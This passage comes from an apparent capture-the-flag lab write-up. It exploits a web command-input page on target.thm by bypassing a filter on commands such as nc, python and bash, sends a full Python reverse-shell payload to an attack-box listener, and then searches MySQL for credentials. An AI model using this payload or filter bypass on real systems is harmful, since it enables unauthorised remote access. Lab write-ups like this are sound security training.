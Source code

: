 ## Getting a Foothold

I notice the /secret folder. I go to http://target.thm/secret and see that there is a command input. I try whoami and it returns www-data.

I try ls and I get a screen asking if I am a hacker. I noticed tried a few command just to see if they were filtered, here are a list of commands that appear to be filtered:

- nc
- python
- bash
- php
- perl
- cat
- head
- tail
- python3
- more
- less
- sh
- ls

I noticed that if a command is piped to another command without spaces, the command doesn't get filtered. This gives me an idea to get a reverse shell.

I run the following on my attack box:

```bash
$ nc -lnvp 4444
```

On the website I send the following payload in the command input:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attack_box_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'|python3
```

I have a shell. I'm in!

I get a stable shell using the [guide found here](../../README.md#stable-shell).

## User Flag

I looked around a few directories including the /var/www/files directory. The index.php file in that directory has a username and password for mysql. I grabbed the records in the users tables but their passwords were not the passwords for the users on the machine.

This was a deadend but here are the commands I ran for future reference:

```bash
$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.41-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
```